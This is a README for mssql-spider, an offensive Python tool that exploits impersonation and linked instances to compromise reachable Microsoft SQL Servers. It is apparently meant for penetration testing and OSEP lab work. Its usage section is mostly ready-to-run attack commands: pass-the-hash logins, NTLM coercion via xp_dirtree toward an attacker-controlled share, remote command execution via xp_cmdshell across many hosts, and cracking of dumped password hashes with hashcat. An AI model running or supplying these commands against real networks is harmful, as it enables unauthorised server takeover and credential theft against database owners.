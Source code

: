 # mssql-spider

![Screenshot](./assets/demo.png)

An improved [impacket-mssqclient](https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py) that exploits user impersonation and follows linked instances to discover and compromise as many Microsoft SQL Servers as it can reach.

Big thanks to the developers of fortra/impacket#1397, [SQLRecon](https://github.com/skahwah/SQLRecon) and [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) on which this project is based.

> **Warning:** Although this project was successfully tested in the lab and solves the OSEP Challenge 2 automatically, it is still kinda work in progress.

# Setup

a) With [pipx](https://github.com/pypa/pipx).

~~~ bash
pipx install git+https://github.com/dadevel/mssql-spider.git@main
~~~

b) With [pip](https://github.com/pypa/pip).

~~~ bash
pip install --user git+https://github.com/dadevel/mssql-spider.git@main
~~~

# Usage

Authenticate as local user and enumerate recursively.

~~~ bash
mssql-spider -u jdoe -p passw0rd db01.corp.local
~~~

Authenticate as domain user via *Pass the Hash* and coerce NTLM authentication from all reachable hosts trough `xp_dirtree`.
This does not require privileged access.

~~~ bash
mssql-spider -d corp.local -u jdoe -H :b9f917853e3dbf6e6831ecce60725930 --coerce-dirtree '\\attacker.corp.local\test' ./mssql-servers.txt
~~~

Authenticate via Kerberos and execute a command trough `xp_cmdshell` on all hosts where you can obtain sysadmin privileges.

~~~ bash
mssql-spider -k -n -w -x 'whoami /groups' db01.corp.local:50123 db02.corp.com:1433
~~~

Run `mssql-spider --help` for more details.

Crack dumped database password hashes.

~~~ bash
hashcat -O -w 3 -a 0 -m 1731 --username ./hashes.txt ./rockyou.txt
~~~
